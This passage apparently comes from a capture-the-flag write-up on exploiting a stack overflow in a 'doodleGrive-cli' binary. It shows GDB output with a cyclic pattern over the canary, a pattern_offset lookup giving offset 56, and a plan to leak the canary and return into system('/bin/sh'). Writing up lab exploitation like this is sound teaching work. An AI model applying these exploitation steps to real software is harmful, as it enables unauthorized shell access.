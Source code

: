 ```
   0x402323 <main+310>: mov    rcx,QWORD PTR [rbp-0x8]
=> 0x402327 <main+314>: xor    rcx,QWORD PTR fs:0x28
   0x402330 <main+323>: je     0x402337 <main+330>
   0x402332 <main+325>: call   0x456d30 <__stack_chk_fail_local>
   0x402337 <main+330>: leave  
   0x402338 <main+331>: ret
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda80 --> 0x66647830 ('0xdf')
0008| 0x7fffffffda88 --> 0x2 
0016| 0x7fffffffda90 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0024| 0x7fffffffda98 ("2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0032| 0x7fffffffdaa0 ("a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0040| 0x7fffffffdaa8 ("Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0048| 0x7fffffffdab0 ("0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0056| 0x7fffffffdab8 ("b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000402327 in main ()

```

This value is the part of the pattern that ended up as the canary. `pattern_offset` will show how far into the pattern that is:

```

oxdf@hacky$ pattern_offset -q 4130634139624138
[*] Exact match at offset 56

```

So I want 56 bytes then the leaked canary and then the return address.

#### Addresses

My strategy is going to be to call `system("/bin/sh")`. I’ll need a `/bin/sh` string to pass to `system`. I can’t send it myself, as `/` is a banned character. But it exists in the binary:

```

oxdf@hacky$ strings -a -t x doodleGrive-cli | grep bin/sh
  97cd5 /bin/sh

```

